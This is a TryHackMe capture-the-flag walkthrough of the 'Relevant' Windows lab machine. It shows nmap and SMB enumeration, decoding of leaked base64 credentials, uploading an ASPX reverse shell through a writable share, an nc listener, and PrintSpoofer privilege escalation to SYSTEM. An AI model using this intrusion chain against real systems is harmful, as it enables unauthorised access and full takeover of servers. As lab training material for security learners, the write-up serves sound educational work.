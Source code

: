 ```yaml
---
published: true
title: Relevant - TryHackMe Walkthrough
author: F3dai
category: Writeup
image: 'https://imgur.com/EbY8m0j.png'
---
```

Relevant - "My friend Dave made his own blog! You should go check it out. The machine may take a few minutes to fully start up."

**URL:** [Dave's Blog](https://tryhackme.com/room/relevant)

**Difficulty:** Medium

**Author:** TheMayor

## Enumeration

We are given the IP 10.10.54.82. Add this to the /etc/hosts file. Let's scan the open ports with the following command:

<pre>sudo nmap -v -sV -sS -p- -T4 -sC -oN portscan relevant.thm</pre>

<pre>PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Windows Server 2016 Standard Evaluation 14393 netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2020-08-22T17:23:55+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
|_ssl-date: 2020-08-22T17:24:34+00:00; +1s from scanner time.
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC

Host script results:
|_clock-skew: mean: 1h24m02s, deviation: 3h07m52s, median: 1s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-08-22T10:23:58-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-22T17:23:56
|_  start_date: 2020-08-22T17:19:13</pre>

This is clearly a Windows box. Let's check out the webserver on port 49663:

![port 49663](https://imgur.com/i6p1QnT.png)

This is the default IIS page so let's move on.

Some of the nmap scripts revealed that smb was running on this machine, let's try and list any shares:

<pre>┌─[user@parrot]─[~/tryhackme/Relevant]
└──╼ $smbclient -L relevant.thm
Enter WORKGROUP\user's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
SMB1 disabled -- no workgroup available</pre>

I managed to access the share "nt4srksv":

<pre>┌─[✗]─[user@parrot]─[~/tryhackme/Relevant]
└──╼ $smbclient  \\\\relevant.thm\\nt4wrksv
Enter WORKGROUP\user's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 22:46:04 2020
  ..                                  D        0  Sat Jul 25 22:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 16:15:33 2020</pre>

Transfer this file over to your local machine:

<pre>get passwords.txt</pre>

Take a look at the file:

**passwords.txt:**

<pre>[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk</pre>

Looks like it's base64 encoded. Let's decode this. I used CyberChef:

[CyberChef - gchq.github.io](https://gchq.github.io/CyberChef)

I got the following result:

<pre>Bob - !P*********23
Bill - Juw***************$$$</pre>

I tried these credentials for some of the services running but I got nothing. After some time, I re-scanned both web servers again with a larger wordlist:

<pre>gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://relevant.thm:49663</pre>

I got a hit on the following directory:

<pre>/nt4wrksv</pre>

This is the same directory that we saw on the share from earlier. Let's confirm by visiting passwords.txt:

<pre>┌─[user@parrot]─[~/tryhackme]
└──╼ $curl relevant.thm:49663/nt4wrksv/passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
</pre>

This means we can upload our own files to the server. However, php is disabled. Another webshell we can upload is .aspx and .asp.

I used this reverse shell:

![.aspx Reverse Shell - Github](https://github.com/borjmz/aspx-reverse-shell)

Add your IP and a port number to the file and upload it to the webserver via smbclient:

<pre>┌─[user@parrot]─[~/tryhackme/Relevant/webshells]
└──╼ $smbclient \\\\relevant.thm\\nt4wrksv
Enter WORKGROUP\user's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (61.6 kb/s) (average 61.6 kb/s)
</pre>

Let's listen on port 4444:

<pre>nc -nvlp 4444</pre>

Visit the file path on the webserver:

<pre>relevant.thm:49663/nt4wrksv/shell.aspx</pre>

![reverse shell](https://imgur.com/CV8Ha6K.png)

The user flag can be found in Bob's home directory, without even being logged in as him.

I proceeded with some Windows enumeration - understanding groups and user permissions and I came across this:

<pre>c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
</pre>

The **SeImpersonatePrivilege** caught my eye.

Some research shows that this is exploitable for privilege escalation. 

The exploit must be for Windows 10 and more, we can identify more information about our system:

<pre>systeminfo</pre>

I found this article:

[PrintSpoofer - Github Pages](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

*if you have SeAssignPrimaryToken or SeImpersonate privilege, you are SYSTEM*

*They allow you to run code or even create a new process in the context of another user*

Take a look at this GitHub repo:

[PrintSpoofer - Github](https://github.com/dievus/printspoofer)

Let's transfer this executable to our target with smbclient. Once it is there, locate the .exe in one of the web directories and execute it. 

<pre>cd C:\inetpub\wwwroot\nt4wrksv
PrintSpoofer.exe -i -c cmd</pre>

And we have elevated our privileges:

<pre>C:\Windows\system32>whoami
whoami
nt authority\system</pre>

![root](https://imgur.com/Me9RYdG.png)



